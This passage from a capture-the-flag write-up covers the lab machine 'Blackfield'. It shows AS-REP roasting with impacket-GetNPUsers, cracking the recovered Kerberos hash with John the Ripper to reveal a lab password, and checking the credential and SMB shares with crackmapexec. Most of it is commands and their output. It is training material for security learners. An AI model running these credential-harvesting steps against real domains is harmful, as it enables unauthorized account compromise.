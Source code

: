The impacket suite has a script that performs this attack. Since our Kali VM isn't configured to resolve the domain using the target machine DNS we need to provide the IP address of the DC and the list of valid users. The output here shows that the `support` account has Pre-Authentication disabled and we can retrieve the asrep hash.

```
snowscan@kali:~/htb/blackfield_demo$ impacket-GetNPUsers blackfield/ -no-pass -dc-ip 10.10.10.192 -usersfile valid_users.txt 
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD:3bbf5b20456f9539e6b59d29278fe01b$d0e38c74a27a2e1d46b2269b85111a158cc2aec48252ad4478eaf949a6311bef44eeca0373174bcaf0b7dfc7dee6d61dc51d1c5388f6f39d40b4bb0c1c1e39c489346007abd3cecf6ae6fc70a40742652358cfe687bd9f86b55de7b44b5e7cb07be8f62b5a95e750d8b8fd591005e778a7f34b7307b1abd7c19cf178e4e6e10bcac8ce418fdb0a56cfb42d06ff2b20ddc6c6e53faef8f3d4ae0c21d34ecc29dc351cb29269065dd97d11187d4ae5426dabdc314b9d1bca6b3bdeb20bdc7659af64211187d47e551d2dac89c5cb1fcbea1be9159ec912cf7fc0d8494f2c51c6ab0007f41c1a24fc11134408750395
```

John The Ripper, a popular password cracking tool, already supports this hash type and providing the standard rockyou.txt wordlist we're able to crack this very quickly. The password is: `#00^BlackKnight`

```
snowscan@kali:~/htb/blackfield_demo$ john -w=/usr/share/wordlists/rockyou.txt asrep.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD)
```

## Identify attack path from support to audit2020

Using crackmapexec, we can confirm that the credentials are valid and look for additional shares that may be available. Here we see that the password for user support is valid but we don't have any additional access.

```
snowscan@kali:~/htb/blackfield_demo$ crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight' --shares
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```
